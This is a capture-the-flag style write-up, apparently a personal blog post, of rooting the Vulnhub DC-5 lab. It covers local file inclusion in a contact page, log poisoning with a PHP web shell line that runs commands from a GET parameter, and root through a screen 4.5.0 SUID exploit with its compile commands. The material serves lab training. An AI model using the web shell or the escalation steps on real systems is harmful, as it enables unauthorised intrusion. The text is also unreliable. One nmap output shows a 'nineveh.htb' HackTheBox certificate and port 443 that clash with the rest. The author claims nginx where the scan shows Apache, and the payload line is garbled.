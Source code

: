 ```yaml
---
layout: PostSimple
date: 2019-11-19
title:     "Vulnhub - DC 5"
tags: ['easy','lfi','log-poisoning']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)
Today, We are going to pwn DC 5 by DCAU7 from Vulnhub


## Description
>DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
The plan was for DC-5 to kick it up a notch, so this might not be  great for beginners, but should be ok for people with intermediate or  better experience. Time will tell (as will feedback).
As far as I am aware, there is only one exploitable entry point to  get in (there is no SSH either). This particular entry point may be  quite hard to identify, but it is there. You need to look for something a  little out of the ordinary (something that changes with a refresh of a  page). This will hopefully provide some kind of idea as to what the  vulnerability might involve.
And just for the record, there is no phpmailer exploit involved. :-)
The ultimate goal of this challenge is to get root and to read the one and only flag.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.
But if you're really, really stuck, you can watch this video which shows the first step.

Download link: [https://www.vulnhub.com/entry/dc-5,314/](https://www.vulnhub.com/entry/dc-5,314/)

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
45669/tcp open  unknown
```

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.9
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/27 17:30:35 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/27 17:30:36 Finished
===============================================================
```

Well gobuster didn’t find anything interesting.

Lets Check the webpage and nothing Interesting too.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/1.png)

But there is form in ``contact`` page.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/2.png)

So i filled some random datas and submitted

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/3.png)

## Getting Shell

### Finding LFI

Once submitted it redirects to some new page with some kind of parameters. I think it is vulnerable to LFI (Local File Inclusion)
So lets test it.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/4.png)
Its Confirmed!!
Now all we need to do is get a reverse shell.

### LFI -> RCE
We know its running in nginx from nmap scans so we can do log poisoning.
For that we need to send a request

`` [?php system($_GET['cmd']); ](?php system($_GET['cmd']); )>``

Now its injected , we know log files of nginx located in ``/var/log/nginx/error.log``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/5.png)
For more info read this article:
>https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/

We got the shell

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/6.png)

## Privilege Escalation

I uploaded my Linux Enumeration Script and found SETUID file

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/7.png)

>screen 4.5.0

Searchsploit shows me an exploit available

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/8.png)

> [https://www.exploit-db.com/exploits/41154](https://www.exploit-db.com/exploits/41154)

I uploaded the script to the machine and tried running but i faced some error , so i split them into 3 parts

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/9.png)

And did the same commands

```
gcc -fPIC -shared -ldl -o exploit.so exploit.c
gcc -o rootshell rootshell.c
```
Now I uploaded them

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/10.png)

Run 411.sh

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/11.png)

We got Root 

``Flag`` [br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc5/13.png)

